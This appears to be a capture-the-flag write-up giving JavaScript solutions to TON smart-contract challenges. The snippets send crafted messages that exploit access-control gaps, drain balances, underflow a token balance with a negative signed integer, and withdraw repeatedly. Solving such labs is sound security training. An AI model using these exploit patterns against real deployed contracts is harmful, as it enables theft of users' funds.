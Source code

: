 ## 11. Tolk

<details>
  <summary>Solution</summary>

```js
await contract.send(
  player,
  beginCell().storeUint(0xf0fd50bb, 32).endCell(),
  toNano("0.03")
);
```

</details>

## 13. Access

Solved similarly to [this](https://github.com/mysteryon88/ton-ctfs/tree/main/hack-challenge-1/contracts/1.%20mutual%20fund) assignment

<details>
  <summary>Solution</summary>

```js
await contract.send(
  player,
  beginCell().storeUint(0x8caa87bd, 32).storeUint(9999, 32).endCell(),
  toNano("0.03")
);

await contract.send(
  player,
  beginCell()
    .storeUint(0xf1eef33c, 32)
    .storeAddress(
      Address.parse("0QCfWnJsn6EObZIpyynLFgEI__C5qX4l_WsiaokAZuDW7bT2")
    )
    .endCell(),
  toNano("0.03")
);

await contract.send(
  player,
  beginCell().storeUint(0xf0fd50bb, 32).endCell(),
  toNano("0.03")
);
```

</details>

## 14. Donate

<details>
  <summary>Solution</summary>

```js
await contract.getBalance();

// donate
await contract.send(
  player,
  beginCell()
    .storeUint(0x47bbe425, 32)
    .storeAddress(
      Address.parse("0QCfWnJsn6EObZIpyynLFgEI__C5qX4l_WsiaokAZuDW7bT2")
    )
    .endCell(),
  toNano("1.5")
);

// withdraw
await contract.send(
  player,
  beginCell().storeUint(0xcb03bfaf, 32).endCell(),
  toNano("0.1")
);
```

  </details>

## 17. Token

Use of signed and unsigned numbers

<details>
  <summary>Solution</summary>

```js
await contract.getTotalSupply();
await contract.getBalanceOf(
  Address.parse("EQBRJB8v2jm0srC5LNYNedch8wR35KPsqt23TSwM9R2jFgSP")
); // = 1000000n

await contract.send(
  player,
  beginCell()
    .storeUint(0x3ee943f1, 32)
    .storeAddress(
      Address.parse("EQBRJB8v2jm0srC5LNYNedch8wR35KPsqt23TSwM9R2jFgSP")
    )
    .storeInt(-1000000n, 256)
    .endCell(),
  toNano("0.03")
);
```

  </details>

## 18. Jackpot

Solved similarly to [this](https://github.com/mysteryon88/ton-ctfs/tree/main/hack-challenge-1/contracts/2.%20bank) assignment

<details>
  <summary>Solution</summary>

Always check for modifying/non-modifying methods.

```js
// deposit
await contract.send(
  player,
  beginCell().storeUint(0, 32).endCell(),
  toNano("0.03")
);

// withdraw
await contract.send(
  player,
  beginCell().storeUint(1, 32).storeCoins(toNano("0.02")).endCell(),
  toNano("0.03")
);
await contract.send(
  player,
  beginCell().storeUint(1, 32).storeCoins(toNano("0.02")).endCell(),
  toNano("0.03")
);
```

  </details>
